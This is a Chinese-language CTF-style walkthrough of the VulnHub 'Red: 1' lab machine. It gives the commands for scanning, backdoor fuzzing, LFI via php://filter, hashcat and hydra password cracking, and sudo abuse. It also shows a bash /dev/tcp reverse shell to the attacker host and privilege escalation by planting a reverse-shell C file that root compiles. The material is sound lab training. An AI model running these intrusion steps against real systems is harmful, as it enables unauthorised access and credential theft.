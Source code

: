 ```yaml
---
title: VulnHub | Red-1
date: 2021-12-19 20:38:02
cover: https://img.freeaes.com/images/2021/09/05/8.jpg
tags:
- VulnHub
categories: 学习笔记
---
```


# Red : 1

## 项目地址
[http://www.vulnhub.com/entry/red-1,753/](http://www.vulnhub.com/entry/red-1,753/)
难度：Medium

## 测试环境
攻击机：Kali 192.168.56.109

目标靶机：Ubuntu 192.168.56.113

## 测试过程

#### 信息收集
查找靶机IP`arp-scan -I eth1 -l`，获取到目标IP为192.168.56.113。
![1](https://img.freeaes.com/images/2021/12/19/1.png)

使用nmap扫描目标开放了哪些端口`nmap -sS -p- -n 192.168.56.113,nmap -sV -p22,80 -n 192.168.56.113`
![2](https://img.freeaes.com/images/2021/12/19/2.png)

访问目标网站，并没有被解析，显示并不完整，查看源码，超链接都指向`redrocks.win`，修改hosts文件，将redrocks.win指向192.168.56.113。
![3](https://img.freeaes.com/images/2021/12/19/3.png)

网页恢复正常，是个wordpress站点。在查看`redrocks.win/2021/10/24/hello-world/`源码时发现有行奇怪的注释，一开始以为是网站的用户名，但是使用忘记密码页面时显示无此账户，并且它的首字母大写并不是很正常`Looking For It`，缩写就是LFI（Local File Inclusion）
![4]https://img.freeaes.com/images/2021/12/19/4.png

#### 查找后门文件
并且网站页面上有hacker留下的信息`You’ll never find the backdoor`，证明是有后门文件的，通过gobuster使用`https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/CommonBackdoors-PHP.fuzz.txt`文件进行遍历，先将文件保存到本地，执行`gobuster dir -u http://redrocks.win -w CommonBackdoors-PHP.fuzz.txt`，应为文件内已有后缀，所以不用再指定后缀名。

![5](https://img.freeaes.com/images/2021/12/19/5.png)

找到一个`NetworkFileManagerPHP.php`。状态码为500，因为是个文件包含所以应该需要一个参数指定包含的文件名，通过burpsuite使用`https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/burp-parameter-names.txt`文件进行爆破，将文件保存到本地，使用Intrude模块导入字典，设置好参数后爆破得到参数为`key`。

![6](https://img.freeaes.com/images/2021/12/19/6.png)

![7](https://img.freeaes.com/images/2021/12/19/7.png)

#### 后门利用
可以看到除了root外还有四个用户，因为直接读取wp-config.php不成功，所以需要使用php伪协议读取`php://filter/convert.base64-encode/resource=wp-config.php`，选中base64密文，按`Ctrl+Shift+B`解密。文件内有数据库的用户名和其密码`john/R3v_m4lwh3r3_k1nG!!`，但是并不能用来登录后台或ssh

![8](https://img.freeaes.com/images/2021/12/19/8.png)

![9](https://img.freeaes.com/images/2021/12/19/9.png)

通过读取Network File Manager PHP.php文件发现里面有一串注释过的信息`That password alone won't help you! Hashcat says rules are rules`。

![10](https://img.freeaes.com/images/2021/12/19/10.png)

![11](https://img.freeaes.com/images/2021/12/19/11.png)

#### hash碰撞
hashcat的规则有很多，不过鉴于信息是由base64提供的，选择bset64规则进行hash碰撞`hashcat --force pass -r /usr/share/hashcat/rules/best64.rule --stdout > pswd`

![12](https://img.freeaes.com/images/2021/12/19/12.png)

![13](https://img.freeaes.com/images/2021/12/19/13.png)

使用解出的密码通过hydra进行ssh爆破`hydra -l john -P pswd ssh://192.168.56.113`，得出密码为`R3v_m4lwh3r3_k1nG!!0`，使用ssh连接。

![14](https://img.freeaes.com/images/2021/12/19/14.png)

#### 会话维持
使用`sudo -l`查看当前用户可执行的命令，有time，执行`sudo -u ippsec /usr/bin/time /bin/bash`切换到ippsec用户。

![15](https://img.freeaes.com/images/2021/12/19/15.png)


hacker会不断的给我们发送信息干扰，一段时间后还会将我们踢出连接并修改密码。
首先我们反弹一个shell到kali。先在kali执行`nc -lvvp 8848`建立监听端口，然后在目标机器上执行`bash -i >& /dev/tcp/192.168.56.109/8848 0>&1`。反弹成功后执行`python3 -c 'import pty;pty.spawn("/bin/bash")'`，这样即使ssh被踢掉也不会断开。

![16](https://img.freeaes.com/images/2021/12/19/16.png)

#### 权限提出
网站目录下的wordpress目录内有个.git目录，里面有两个文件，rev和supersecretfileuc.c，rev是supersecretfileuc.c编译的程序，执行会输出信息，就是red时不时弹出的骚扰信息，将rev删除后过段时间会重新编译，并且是root权限。

![17](https://img.freeaes.com/images/2021/12/19/17.png)

删掉这两个文件，用revshell.com网站生成C的反弹shell程序，通过http服务将其传到目标机器写入supersecretfileuc.c，并在kali监听9001端口，过段时间它会自动编译并执行。在root目录下有个root.txt文件。

![18](https://img.freeaes.com/images/2021/12/19/18.png)

![19](https://img.freeaes.com/images/2021/12/19/19.png)

![20](https://img.freeaes.com/images/2021/12/19/20.png)
